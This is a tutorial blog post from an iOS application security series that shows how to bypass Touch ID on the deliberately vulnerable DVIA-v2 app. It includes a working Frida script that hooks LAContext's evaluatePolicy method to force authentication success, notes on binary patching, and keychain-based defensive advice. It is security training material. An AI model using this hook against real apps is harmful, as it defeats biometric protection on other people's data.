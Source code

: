 ```yaml
---
layout: post
title: "iOS Application Security Part 50 - Touch ID Bypass with Frida"
date: 2018-07-26 07:48
comments: true
tags: security 
---
```

In the previous article, we looked at Runtime Manipulation with Frida. In this article, we will look at how we can bypass Touch ID authentication in certain iOS applications using Frida. We will be performing the tests on the swift version of Damn Vulnerable iOS app which can be downloaded from damnvulnerableiosapp.com.

Open the app and navigate under the section Touch/Face ID Bypass

Authentication can be done in multiple ways, and can use different languages (Objective-C or Swift). One of the ways is to use the LAContext class using the Local Authentication framework. The evaluatePolicy:localizedReason:reply: method from the LAContext class presents a dialog to the user which can ask for the user to confirm the action with biometric authentication through their fingerprint. If the method returns success, the relevant action is performed. However, the action that is performed after authentication is in no way correlated with how the authentication was done. There is no way for the iOS app to determine whether the authentication was performed with a valid fingerprint, or whether the method was hooked. The following code snippet from DVIA-v2 shows the implementation (from the file TouchIDAuthentication.m) using the LAContext class.

<!--more-->

<pre>	+(void)authenticateWithTouchID {

	    LAContext *myContext = [[LAContext alloc] init];
	    NSError *authError = nil;
	    NSString *myLocalizedReasonString = @"Please authenticate yourself";

	    if ([myContext canEvaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics error:&authError]) {
	        [myContext evaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics
	                  localizedReason:myLocalizedReasonString
	                            reply:^(BOOL success, NSError *error) {
	                                if (success) {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                    [TouchIDAuthentication showAlert:@"Success" withTitle:@"Authentication Successful"];
	                                    });
	                                } else {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                       [TouchIDAuthentication showAlert:@"Error" withTitle:@"Authentication Failed !!"];
	                                    });
	                                }
	                            }];
	    } else {
	        dispatch_async(dispatch_get_main_queue(), ^{
	            [TouchIDAuthentication showAlert:@"Your device doesn't support Touch ID" withTitle:@"Error"];
	        });
	    }
	}

</pre>

It is possible to just hook the evaluatePolicy:localizedReason:reply: method and make it return true. This can be done with the following Frida script.

<pre>	if(ObjC.available) {
		var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
		Interceptor.attach(hook.implementation, {
			onEnter: function(args) {
				var block = new ObjC.Block(args[4]);
				const appCallback = block.implementation;
				block.implementation = function (error,value)  {
					const result = appCallback(1, null);
					return result;
				};
			},
		});
	} 

</pre>

![1](/images/posts/ios50/1.png)

Now go the Touch/Face ID Bypass -> Objective-C implementation in DVIA-v2 and tap on the fingerprint button.

![2](/images/posts/ios50/2.PNG)

Now put the incorrect fingerprint. You will see that since the method is hooked, the authentication is successful.

![3](/images/posts/ios50/3.PNG)

The following function from DVIA-v2 shows the Swift implementation of the same thing. Since this can't be manipulated, it can still be patched and the function flow could be modified to go inside the if loop directly. The patching can be done with Hopper followed by signing with jtool.

<pre>	@IBAction func touchIDTapped(_ sender: Any) {
	        let context = LAContext()
	        var error: NSError?

	        if context.canEvaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, error: &error) {
	            let reason = "Please authenticate yourself"

	            context.evaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, localizedReason: reason) {
	                [unowned self] success, authenticationError in

	                DispatchQueue.main.async {
	                    if success {
	                        DVIAUtilities.showAlert(title: "Success", message: "Authentication Successful", viewController: self)
	                    } else {
	                        DVIAUtilities.showAlert(title: "Error", message: "Authentication Failed", viewController: self)
	                    }
	                }
	            }
	        } else {
	           DVIAUtilities.showAlert(title: "Touch ID not available", message: "Your device doesn't support Touch ID or you haven't configured Touch ID authentication on your device", viewController: self)
	        }
	    }
</pre>

In general, the vulnerability arises from the fact that the authentication and the resulting action after a successful authentication are independent of each other. A better way to securely save the data would be to save the data in the keychain and protect it with appropriate keychain attributes (for e.g ksecattraccessiblewhenpasscodesetthisdeviceonly), which require touch ID or device passcode authentication to access the keychain content. This will make it harder for the attacker to get the data since to gather the information from the keychain the user would actually have to authenticate with Touch ID or enter the passcode, depending on which access control he applied, and also the logic is managed by the OS and not the application. Even though biometric authentication via the Local Authentication framework is easy to implement, it is not recommended to be used for sensitive applications, such as banking or other financial apps.

In the next article, we will look at dumping unencrypted IPAs from the device and dynamic instrumentation on a non-jailbroken device using Frida.